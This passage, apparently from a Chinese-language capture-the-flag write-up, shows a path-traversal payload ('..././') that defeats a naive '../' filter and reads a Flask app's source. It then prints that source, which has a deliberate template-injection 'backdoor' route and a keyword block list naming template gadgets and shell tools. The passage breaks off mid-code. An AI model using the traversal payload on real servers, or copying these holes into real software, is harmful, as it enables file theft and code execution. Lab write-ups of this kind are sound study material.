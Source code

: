 结合Dockerfile泄露的目录，可以猜到运行文件，直接目录穿越读取源码

```
/download?file=..././..././..././app/app.py
```

源码如下

```python
import os
import re

from flask import Flask, render_template, request, abort, send_file, session, render_template_string
from config import secret_key

app = Flask(__name__)
app.secret_key = secret_key


@app.route('/')
def hello_world():  # put application's code here
    return render_template('index.html')


@app.route("/cancanneed", methods=["GET"])
def cancanneed():
    all_filename = os.listdir('./static/img/')
    filename = request.args.get('file', '')
    if filename:
        return render_template('img.html', filename=filename, all_filename=all_filename)
    else:
        return f"{str(os.listdir('./static/img/'))} <br> <a href=\"/cancanneed?file=1.jpg\">/cancanneed?file=1.jpg</a>"


@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get('file', '')
    if filename:
        filename = filename.replace('../', '')
        filename = os.path.join('static/img/', filename)
        print(filename)
        if (os.path.exists(filename)) and ("start" not in filename):
            return send_file(filename)
        else:
            abort(500)
    else:
        abort(404)


@app.route('/backdoor', methods=["GET"])
def backdoor():
    try:
        print(session.get("user"))
        if session.get("user") is None:
            session['user'] = "guest"
        name = session.get("user")
        if re.findall(
                r'__|{{|class|base|init|mro|subclasses|builtins|globals|flag|os|system|popen|eval|:|\+|request|cat|tac|base64|nl|hex|\\u|\\x|\.',
                name):
            abort(500)
        else:
            return render_template_string(
```